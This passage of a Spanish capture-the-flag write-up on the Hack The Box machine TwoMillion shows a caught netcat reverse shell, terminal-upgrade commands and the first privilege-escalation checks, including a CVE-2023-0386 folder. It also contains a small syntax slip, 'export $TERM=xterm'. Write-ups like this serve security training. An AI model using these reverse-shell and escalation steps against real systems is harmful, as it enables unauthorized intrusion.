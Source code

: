 Consigo acceso a la máquina TwoMillion como el usuario "www-data".

```shell
nc -lvnp 4321         

listening on [any] 4321 ...
connect to [10.10.14.132] from (UNKNOWN) [10.10.11.221] 36086
bash: cannot set terminal process group (1159): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2million:~/html$ whoami
www-data
```

Para tener una consola interactiva  y que por ejemplo detecte un ctrl.c hay que hacer un tratamiento de la tty. Ejecuto `script /dev/null -c bash`, hago ***ctrl+z***, escribo ***"stty raw -echo; fg"***, introduzco ***"reset xterm"*** y doy un ***intro***. Con esto he reiniciado la configuración de la terminal.

```shell
www-data@2million:~/html$
```

La shell todavía no es interactiva del todo. Podemos ver que la variable de entorno $TERM tiene el valor dump y no xterm. 

```shell
www-data@2million:~/html$ echo $TERM
dumb
www-data@2million:~/html$ export $TERM=xterm
```

La proporción de la consola no es igual a la de terminal. Miro el tamaño con `stty size`.

```shell
www-data@2million:~/html$ stty size
24 80
```

En la máquina hay 24 filas y 80 columnas, pero en mi kali son 63 filas y 281 columnas. Las modifico para que tengan el mismo espacio.

```shell
www-data@2million:~/html$ stty rows 63 columns 281
```

## Escalada de privilegios

Comienzo revisando si estoy dentro de algún grupo.

```shell
www-data@2million:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Busco la flag del usuario pero no la encuentro en el directorio de mi usuario actual. Busco dentro de la carpeta home y encuentro una carpeta llamada "admin". Dentro está la primera flag, pero no tengo permisos para leerla.

```shell
www-data@2million:/home/admin$ ls
CVE-2023-0386  cve.zip  user.txt
www-data@2million:/home/admin$ cat user.txt 
cat: user.txt: Permission denied
```
